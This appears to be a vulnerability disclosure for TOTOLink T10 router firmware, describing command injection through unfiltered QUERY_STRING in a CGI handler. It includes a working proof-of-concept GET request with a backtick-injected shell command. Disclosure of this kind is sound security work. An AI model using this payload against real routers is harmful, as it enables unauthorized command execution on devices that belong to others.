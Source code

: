 # TOTOLink T10 V5.9c.5061_B20200511 Has an command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: TOTOLINK (https://www.totolink.net/)
- **Products**: WiFi Router, such as T10 V5.9c.5061_B20200511
- **Firmware download address:** https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/172/ids/36.html



## Description

### 1.Product Information:

TOTOLink T10 router, the latest version of simulation overview：

![Figure 1 Update date of the latest version of the firmware](images/image-20220212234850675.png)





### 2. Vulnerability details

![Figure 2 Local of file](images/image-20220212235410138.png)

TOTOLink T10 V5.9c.5061_B20200511 was discovered to contain a command injection vulnerability in the "Main" function. This vulnerability allows attackers to execute arbitrary commands via the QUERY_STRING parameter.

![Figure 3 Local of the vulnerability](images/image-20220212235159394.png)

We can see that the os will get ` QUERY_STRING`  without filter splice to the string `echo QUERY_STRING:%s >/tmp/download` and execute it. So, If  we can control the `QUERY_STRING`, it can be command injection.

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
GET /cgi-bin/downloadFlile.cgi?payload=`ls>../1.txt` HTTP/1.1 
Host: 192.168.111.12 
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Connection: keep-alive 
Upgrade-Insecure-Requests: 1 
Cache-Control: max-age=0
```

![Figure 4 POC attack effect](images/22.png)

However response code is 500, the code is still executed successfully

![Figure 5 POC attack effect](images/33.png)

